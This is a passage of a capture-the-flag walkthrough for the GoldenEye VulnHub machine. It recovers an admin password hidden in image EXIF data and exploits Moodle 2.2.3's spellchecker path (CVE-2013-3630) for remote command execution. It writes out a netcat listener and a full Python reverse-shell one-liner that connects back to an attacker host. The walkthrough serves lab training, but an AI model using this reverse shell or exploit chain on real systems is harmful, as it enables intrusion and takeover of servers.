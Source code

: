 >s3cret.txt:<br/>
007,<br/>
I was able to capture this apps adm1n cr3ds through clear txt.<br/>
Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here.
Something juicy is located here: /dir007key/for-007.jpg

At 10.10.11.133/dir007key/for-007.jpg we have a picture of Dr. Doak:<br/>
![](/images/goldeneye/doakster.jpg)<br/>

The credentials are probably hidden inside this image, so let's do some CTF work.<br/>
First download the image with `wget 10.10.11.133/dir007key/for-007.jpg`.<br/>
Checking the image's EXIF-data with `exiftool for-007.jpg` we see an interesting string:<br/>
`Image Description: eFdpbnRlcjE5OTV4IQ==`

The strings is encoded with base64. Decoding it with `echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d` we get password: `xWinter1995x!`.
This is the admin password to the training platform.
<br/><br/>
## Reverse Shell

Enumerating the site as admin we find the Moodle version `2.2.3`.
If we Google exploits for this, we find a remote command execution vulnerability [CVE-2013-3630][CVE-2013-3630].
>By updating the path for the spellchecker to an arbitrary command, an attacker can run arbitrary commands in the context of the web application upon spellchecking requests.

So if we change the path for spellchecker, let's say to and run it, we get a reverse shell.<br/>
Spellchecker path -setting is at **Home > Site administration > Server > System paths.**

Before we can exploit this we have to change the `Spell engine` from default "Google Spell" to "PSpellShell" at **Home > Site administration >
Plugins > Text editors > TinyMCE HTML editor**.

Now that we have the spellchecker path and spell engine changed we can set up a netcat listener on our host:
`nc -lvnp 1337`.<br/>
After that go to the training platform and create a new blogpost.
In the text-editor there is a button for spell-checking.
Click that and you should now have a reverse shell as user `www-data`.

I used the usual Python reverse shell as the spellchecker path:
>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.x.x.x",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


[CVE-2015-1328]: https://www.exploit-db.com/exploits/37292
[CVE-2013-3630]: https://www.exploit-db.com/exploits/29324
[GoldenEye]: https://www.vulnhub.com/entry/goldeneye-1,240/
[creosote]: https://www.vulnhub.com/author/creosote,584/